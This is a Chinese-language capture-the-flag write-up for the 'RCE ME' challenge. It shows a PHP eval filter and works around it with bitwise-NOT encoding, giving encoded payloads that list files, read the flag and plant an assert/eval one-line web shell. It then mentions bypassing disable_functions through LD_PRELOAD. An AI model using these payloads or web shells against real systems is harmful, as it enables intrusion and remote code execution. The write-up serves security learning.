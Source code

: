 # \[极客大挑战 2019]RCE ME

\[极客大挑战 2019]RCE ME

## 考点

* 无字母数字RCE
* PHP7参数解析特性
* 取反bypass代码执行

## wp

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
  $code=$_GET['code'];
  if(strlen($code)>40){
    die("This is too Long.");
  }
  if(preg_match("/[A-Za-z0-9]+/",$code)){
    die("NO.");
  }
  @eval($code);
}else{
  highlight_file(__FILE__);
}
```

`eval`的字符串不能出现字母和数字，并且长度不超过40

可以使用取反进行绕过对字符的限制

```
phpinfo() => (~%8F%97%8F%96%91%99%90)(); 

print_r(scandir('./')) => (~%8F%8D%96%91%8B%A0%8D)((~%8C%9C%9E%91%9B%96%8D)(("./")));

readfile("/flag") => (~%8D%9A%9E%9B%99%96%93%9A)((~%D0%8D%9A%9E%9B%99%93%9E%98));
```

`phpinfo()`有disable\_functions，考虑使用一句话

```
assert('eval($_POST[1])') => (~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6);
```

蚁剑连接

![](<../.gitbook/assets/image (14) (1) (1) (1).png>)

再绕过disable\_functions

![](<../.gitbook/assets/image (15) (1) (1).png>)

![](<../.gitbook/assets/image (9) (1) (1).png>)

## 小结

1. [深入浅出LD\_PRELOAD & putenv()](https://www.anquanke.com/post/id/175403)
